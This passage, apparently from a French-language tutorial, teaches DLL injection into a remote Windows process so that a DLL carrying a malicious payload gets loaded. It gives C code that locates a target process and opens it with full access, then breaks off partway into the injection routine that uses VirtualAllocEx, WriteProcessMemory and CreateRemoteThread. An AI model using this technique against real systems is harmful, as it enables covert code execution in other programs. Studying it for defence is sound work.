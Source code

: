 Nous utiliserons également VirtualAllocEx(), WriteProcessMemory() et CreateRemoteThread(), afin de manipuler de diverses manière un processus distant.

Nous sommes ainsi en mesure d'injecter une DLL spécifiquement préparée par nos soins auparavant et contenant notre payload malveillant ; celle-ci sera chargée via la fonction LoadLibraryW().


```c
BOOL HandleRemoteProcess(LPWSTR szProcessName, DWORD* dwProcessId, HANDLE *hProcess) {

	// Snapshot de la liste de processus actifs 
	HANDLE hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
	PROCESSENTRY32 Proc = { .dwSize = sizeof(PROCESSENTRY32) };

	// Récupération des infos du premier processus de la liste
	if (!Process32First(hSnapShot, &Proc)) {
		printf("!! - Erreur Process32First : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	do {

		//Si le processus match celui qu'on recherche ...
		if (_wcsicmp(Proc.szExeFile, szProcessName) == 0) {
			//... on extrait le PID du processus depuis la structure...
			*dwProcessId = Proc.th32ProcessID;
			//... et on ouvre un handle vers ce processus.
			*hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
			if (*hProcess == NULL)
				printf("!! - Erreur OpenProcess : %d \n", GetLastError());

			break;
		}

		//Sinon, on continue à chercher à travers la liste
	} while (Process32Next(hSnapShot, &Proc));

_EndOfFunction:
	//Toujours fermer un handle ouvert (afin d'éviter le handle leaking)
	if (hSnapShot != NULL) {
		CloseHandle(hSnapShot);
	}
	if (*dwProcessId == NULL || *hProcess == NULL) {
		return FALSE;
	}
	return TRUE;
}


BOOL InjectDllToRemoteProcess(HANDLE hProcess, PWSTR DllName) {

	//Init. variables
	//Pointeurs 
	// ...vers LoadLibraryW
	LPVOID pLoadLibraryW = NULL;
	// ...vers plage mémoire dans remote process
	LPVOID pAddress = NULL;
	//Tailles
	// ... du nom de la DLL à charger (requis par VirtualAllocEx)
	// ... (longueur de la string W "DllName" * taille (en bytes) du type WCHAR)
	DWORD dwSizeToWrite = lstrlenW(DllName) * sizeof(WCHAR);
	// ... param. OUT de WriteProcessMemory (reçoit le nbr de bytes écrits)
	SIZE_T lpNumberOfBytesWritten = NULL;
	// Handle retourné par la fonction CreateRemoteThread
	HANDLE hThread = NULL;
```